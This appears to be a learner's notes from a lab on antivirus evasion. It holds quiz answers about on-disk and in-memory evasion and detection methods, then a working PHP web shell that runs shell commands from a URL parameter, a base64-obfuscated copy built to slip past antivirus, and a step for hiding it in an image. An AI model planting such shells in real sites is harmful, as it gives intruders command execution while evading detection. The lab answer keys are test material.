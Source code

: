 ## AV Evasion : Introduction

### There are two types of Evasion available
* On-Disk Evasion
* In-Memory Evasion

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Which category of evasion covers uploading a file to the storage on the target before executing it ? | On-Disk Evasion |
| What does AMSI stand for ? | Anti Malware Scan Interface |
| Which category of evasion does AMSI affect ? | In-Memory Evasion |



## AV Evasion : AV Detection Methods

### AV Detection Method can be clsssified into two categories
* Static Detection
* Dynamic / Heuristic / Behavioural Detection

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What other name can be used for Dynamic/Heuristic methods ? | Behavioural |
| If AV software splits a program into small chunks and hashses them, checking the results against a database, is this a static or dynamic analysis method ? | Static |
| When dynamically analysing a suspicioous file using a line-by-line analysis of the program, what would antivirus software check against to see if the behaviour is malicious ? | Pre-Defined Rules |
| What could be added to a file to ensure that only a user can open it (preventing AV from executing the payload) ? | Password |



## AV Evasion : PHP Payload Obfuscation

> php payload
```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>

```
> php obfuscation payload
```
<?php $y0=$_GET[base64_decode('d3JlYXRo')];if(isset($y0)){echo base64_decode('PHByZT4=').shell_exec($y0).base64_decode('PC9wcmU+');}die();?>

```
> use exiftool to attact the payload into a image file ( we need to escape the `$` sign)

